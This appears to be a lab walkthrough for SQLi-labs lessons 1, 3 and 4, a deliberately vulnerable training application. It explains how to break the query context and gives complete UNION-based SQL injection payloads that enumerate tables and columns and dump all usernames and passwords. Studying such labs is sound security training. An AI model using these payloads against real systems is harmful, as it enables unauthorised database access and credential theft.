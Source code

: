 # Unable to setup database, solving from online instance

#LESS-1: Error based - single quote - string
		#Reference wiki.bi0s.in
		
here we are asked to input id as parameter with numeric value so when we give ?id=10 we get username and password, To break the query we try giving special characters like \,' ,so when we give \ as input we get an error  ''\' LIMIT 0,1' saying that the syntax of query is wrong 

here the part of the query which has the error is placed inside single quotes removing them we get
'\' LIMIT 0,1 so here we can clearly see that the input we give is place inside the single quotes, i.e this query is single quoted 

now we try to dump the data i.e get all usernames and passwords by giving a specified input

1.First we try to find the number of attributes in the query 
this can be done by using UNION keyword, which when used in a query should have same no of attributes 
so when we try untill we get rid of the error
?id=-1' UNION select 1,2,3-- -

so from this the statement we can conclude that we are having 3 attributes in the query and the username and password we get are the input we gave at second and third positions

so using database() we find the database(security)
now we find table name and column name 
so inside information_schema we have a relation named TABLES which contains data of all tables,so this relation contains attributes named TABLE_SCHEMA and TABLE_NAME, which has database names and names of TABLE_NAME respectively

So now to get list of all tables in database
we give 
#?id=-1' union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 

Now to get the attributes in the users table we give the query

#?id=-1' union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -

now we have the attributes id,username,password now to dump the data we give 

#?id=-1' union select 1,group_concat(username),group_concat(password) from users -- - 

which will give all the usernames and passwords

#LESS-3: Error-based-single quotes with twist
		
this is also similar to less-1,when we give an integer we get username and password,here the difference is when we try to break the query using \ or ' 
we get
'\') LIMIT 0,1 
so the we can understand that this is a single quoted query with brackets
now this is same as less-1 the only thing we change here is we add a bracket after the single quote 
so briefly the payloads used are

?id=-1') UNION select 1,2,3-- -  
to find no of columns

?id=-1') union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 
to find table name(users)

?id=-1') union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -
to get attribute names(username,id,password)

?id=-1') union select 1,group_concat(username),group_concat(password) from users -- - 
to get values

#LESS-4:Error-based-Double quotes
This is also a very similar one to less-1 and less-3 since the database and tables are the same, only difference is breaking the query
so when we give \ as input we get
 "\") LIMIT 0,1
so we can conclude that this is double quoted query with brackets
and from here this is same as above one
the payloads are
?id=-1") UNION select 1,2,3-- -
To find no of attributes

?id=-1") union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 
to find table name(users)

?id=-1") union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -
to get attribute names

?id=-1") union select 1,group_concat(username),group_concat(password) from users -- - 
to get attribute names(username,id,password)


